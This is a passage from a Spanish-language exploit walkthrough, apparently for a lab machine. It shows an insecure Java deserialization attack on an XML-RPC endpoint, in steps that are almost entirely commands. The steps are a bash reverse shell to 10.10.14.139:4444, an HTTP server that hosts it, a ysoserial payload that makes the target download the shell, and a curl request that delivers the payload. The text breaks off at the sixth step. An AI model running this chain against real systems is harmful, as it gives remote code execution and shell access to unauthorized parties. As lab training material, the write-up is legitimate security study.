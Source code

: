 ```bash
┌─[z3r0byte@z3r0byte]─[~/Descargas]
└──╼ $ cat rev.sh 
#!/bin/bash

bash -i >& /dev/tcp/10.10.14.139/4444 0>&1
```

## 2º Paso · Monta un servidor en python3 para que la reverse shell sea visible via HTTP

```bash
┌──[z3r0byte@z3r0byte]─[~/Descargas]
└──╼ $ authbind python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

## 3º Paso · Descarga la herramienta YsoSerial, que sirve para explotar deserializaciones inseguras.

```bash
┌─[z3r0byte@z3r0byte]─[~]
└──╼ $ wget https://jitpack.io/com/github/frohoff/ysoserial/master-d367e379d9-1/ysoserial-master-d367e379d9-1.ja

Longitud: 59524721 (57M) [application/java-archive]
Grabando a: «ysoserial-master-d367e379d9-1.jar»

ysoserial-master-d367 100%[=========================>]  56,77M  11,4MB/s    en 5,1s    

La cabecera de fecha de última modificación es inválida -- marca de tiempo descartada.
2021-10-12 22:56:13 (11,1 MB/s) - «ysoserial-master-d367e379d9-1.jar» guardado [59524721/59524721]
```

## 4º Paso · Genera un payload con YsoSerial y copia el output - recuerda cambiar la IP

```bash
┌─[z3r0byte@z3r0byte]─[~]
└──╼ $ java -jar ysoserial-master-d367e379d9-1.jar CommonsBeanutils1 "wget 10.10.14.139/rev.sh -O /tmp/shell.sh" | base64 | tr -d "\n"
rO0ABXNyABdqYXZhLnV0aWwuUHJpb3JpdHlRdWV1ZZT [...]
```
(Esto genera una cadena de texto muy larga)

## 5º Paso · Tramita una petición con curl conteniendo nuestro payload

```bash
┌─[z3r0byte@z3r0byte]─[~]
└──╼ $ curl https://127.0.0.1:8443/webtools/control/xmlrpc -X POST -v -d '<?xml version="1.0"?><methodCall><methodName>ProjectDiscovery</methodName><params><param><value><struct><member><name>test</name><value><serializable xmlns="http://ws.apache.org/xmlrpc/namespaces/extensions">AQUI_PON_TU_PAYLOAD</serializable></value></member></struct></value></param></params></methodCall>' -k  -H 'Content-Type:application/xml'
```
## 6º Paso · Asegurate de que has recibido una petición en tu servidor de python3
